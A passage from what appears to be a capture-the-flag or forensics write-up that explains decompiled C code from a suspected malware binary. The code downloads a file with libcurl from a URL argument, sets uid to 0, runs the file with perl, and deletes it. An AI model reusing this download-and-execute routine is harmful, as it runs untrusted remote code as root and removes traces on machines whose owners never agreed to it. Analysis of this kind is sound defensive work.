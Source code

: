 

It opens that as a file for writing:



      puts("Running... ");
      filehandle = fopen(argv[2],"wb");



Next is uses `curl` to make a web request:



      curl_object = curl_easy_init();
      curl_easy_setopt(curl_object,0x2712,argv[1]);
      curl_easy_setopt(curl_object,0x2711,filehandle);
      curl_easy_setopt(curl_object,0x2d,1);
      res = curl_easy_perform(curl_object);



First it sets the URL (0x2712) to the first argument from the command
line. Then it sets the output file (0x2711) to the filehandle from the
`lDnxUysaQn` file. 0x2d sets verbose to true, and then it executes the
curl command.

If the `curl` is successful, it does the following:



      if (res == 0) {
        res = snprintf((char *)0x0,0,"%s",argv[2]);
        arg2_str = (char *)malloc((long)res + 1);
        snprintf(arg2_str,(long)res + 1,"%s",argv[2]);
        res = snprintf((char *)0x0,0,"perl ./%s",arg2_str);
        cmd_str = (char *)malloc((long)res + 1);
        snprintf(cmd_str,(long)res + 1,"perl ./%s",arg2_str);
        fclose(filehandle);
        curl_easy_cleanup(curl_object);
        setuid(0);
        system(cmd_str);
        system("rm -f ./lDnxUysaQn");
        return 0;
      }
      puts("Exiting... ");
                        /* WARNING: Subroutine does not return */
      exit(0);
    }



This code is taking a weird route to building a command string that
looks like `perl ./[arg2]`. It's running whatever was downloaded with
`perl`. Then it cleans up, including removing that file, and returns.

This file doesn't make a lot of sense unless I view it as a piece of
malware that's under analysis by this forensics firm.

### Execution
